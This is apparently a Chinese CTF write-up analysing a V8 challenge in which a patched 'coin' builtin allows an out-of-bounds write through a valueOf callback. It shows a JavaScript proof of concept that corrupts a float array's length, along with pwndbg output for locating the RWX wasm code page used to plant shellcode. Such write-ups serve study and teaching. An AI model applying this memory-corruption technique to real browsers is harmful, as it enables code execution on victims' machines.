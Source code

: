 引入的漏洞补丁增加了一个coin函数，该函数先检查参数是否为3个，如果不是就返回undefined，之后通过Object::ToNumber 获取参数length 以及value ；检查数组array 的length ，当array 长度大于37时，将参数value 赋值给array[37] ；否则直接返回undefined。

该题目漏洞在于如果传入参数value是一个对象时，v8会尝试将对象转化成数字而对回调函数valueOf或toString进行调用。过程和顺序如下图所示：

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-数字经济-chrome-pwn分析\webp)

### 利用过程

（1）我们可以通过以下方式，在运行过程中修改array 数组的length：

```javascript
// poc.js
var val= {
	valueOf:function(){
	array.length = 0x100;
	return 1024;
	}
}
var array = new Array(30);
float_array=[1.1, 2.2];
array.coin(34,val);
console.log("[+] float_victim(OOBARR) array length is changed to:"+float_victim.length);
```

上述代码先分配了长度为30的数组array，之后触发调用valueOf，修改array的长度为0x100，此时element指针并未改变，造成了越界写。计算好偏移，令array[37] 正好覆盖到float_array数组的length，就可以对float_array数组进行越界读写，将内存中的数据（包括地址）当成float类型进行读取。

float_array数组的length已经被修改成了1083179008：

![image-20200721170836619](D:\github\De4dCr0w.github.io\image\2020-07-20-数字经济-chrome-pwn分析\4.png)

现在已经可以对float_array数组这一大块内存进行任意读写了。

（2）查找保存wasm代码内存页地址的指针

首先我们打算通过将shellcode写入wasm的代码段中，因为wasm 所对应的代码段的属性为rwx，在调用wasm函数时就会触发shellcode。通过查找Function–>shared_info–>WasmExportedFunctionData–>instance，在instance+0x88的偏移处，保存着wasm代码的内存页起始地址。最后可以计算出保存wasm代码内存页地址和JSFunction 对象的地址相差0x170。

```c

pwndbg> job 0x022951ba1529
0x22951ba1529: [Function] in OldSpace
 - map: 0x0a79bb2045a9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x022951b82109 <JSFunction (sfi = 0xd3d08583b51)>
 - elements: 0x189327040c21 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x022951ba14f1 <SharedFunctionInfo 0>  <------------------shared_info
 - name: 0x189327044781 <String[#1]: 0>
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x022951b81851 <NativeContext[249]>
 - code: 0x09aa45c42001 <Code JS_TO_WASM_FUNCTION>
 - WASM instance 0x22951ba1331
 - WASM function index 0
 - properties: 0x189327040c21 <FixedArray[0]> {
    #length: 0x0d3d085804b9 <AccessorInfo> (const accessor descriptor)
    #name: 0x0d3d08580449 <AccessorInfo> (const accessor descriptor)
    #arguments: 0x0d3d08580369 <AccessorInfo> (const accessor descriptor)
    #caller: 0x0d3d085803d9 <AccessorInfo> (const accessor descriptor)
 }

 - feedback vector: not available
pwndbg> job 0x022951ba14f1
0x22951ba14f1: [SharedFunctionInfo] in OldSpace
 - map: 0x189327040991 <Map[56]>
 - name: 0x189327044781 <String[#1]: 0>
```